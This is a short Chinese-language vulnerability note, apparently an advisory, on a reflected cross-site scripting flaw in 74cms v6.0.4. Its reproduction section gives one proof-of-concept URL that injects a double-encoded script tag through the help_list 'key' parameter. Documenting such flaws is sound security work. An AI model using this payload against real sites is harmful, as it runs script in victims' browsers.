 # 74cms v6.0.4 反射型xss
## 一、漏洞简介
## 二、漏洞影响
74cms v6.0.4
## 三、复现过程
```html
http://www.0-sec.org/index.php?m=&c=help&a=help_list&key=137244gq1lw%253cscript%253ealert%25281%2529%253c%252fscript%253edutvxlqd4lq&__hash__=d7aa5a382f14d270c3ac4de8392b4e1d_a34adb2b339972672eb447276f69ee88
```
